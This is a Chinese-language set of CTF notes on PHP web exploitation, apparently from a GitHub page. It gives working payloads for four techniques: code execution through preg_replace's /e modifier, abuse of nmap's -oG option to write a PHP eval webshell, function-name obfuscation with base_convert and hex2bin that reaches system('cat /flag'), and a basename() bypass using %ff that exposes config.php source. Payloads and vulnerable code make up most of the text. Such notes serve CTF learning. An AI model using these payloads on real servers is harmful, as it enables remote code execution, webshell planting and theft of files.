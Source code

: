 ## **preg_replace函数代码执行**
preg_replace接收三个参数，$a是正则表达式为/e时，第三个参数$c如果${}包裹里面会被代码执行
```
preg_replace($a,$b,$c);
```


正则替换函数
```
function getFlag(){
    @eval($_GET['cmd']);
}

//将每个get传参的参数和参数值进行匹配
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```



```
如果传参
参数 "/([A-Z])/"; // 匹配大写字母的正则表达式
值 "Hello World"

preg_replace 函数来将字符串中的大写字母转换为小写字母：
这段代码执行后会输出 "hello world"
```
这里的漏洞出在preg_replace /e 模式下。
值用${}包裹后会代码执行。
```
比如我们传入  ?.*={${phpinfo()}}
原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 
就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});

又因为$_GET传入首字母是非法字符时候会把 .（点号）改成下划线，因此得将\.*换成\S*

所以payload：?\S*=${getFlag()}&cmd=system('ls /'); 
此时getFlag()会被代码执行，调用函数，即可使用cmd。
```


^
## **过滤函数**
```
$host = $_GET['host'];
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```
利用特性，和namp参数写文件webshell
```
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '
```



^
## **进制转换函数**
```
base_convert(37907361743,10,36) = "hex2bin"

hex2bin(5f 47 45 54) = "_GET"

dechex(1598506324) =  "5f 47 45 54"

_GET = base_convert(37907361743,10,36)(dechex(1598506324))

变量覆盖
/?c=$p=base_convert(37907361743,10,36)(dechex(1598506324));($$p){pi}(($$p){abs})&pi=system&abs=cat /flag
```


^
^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


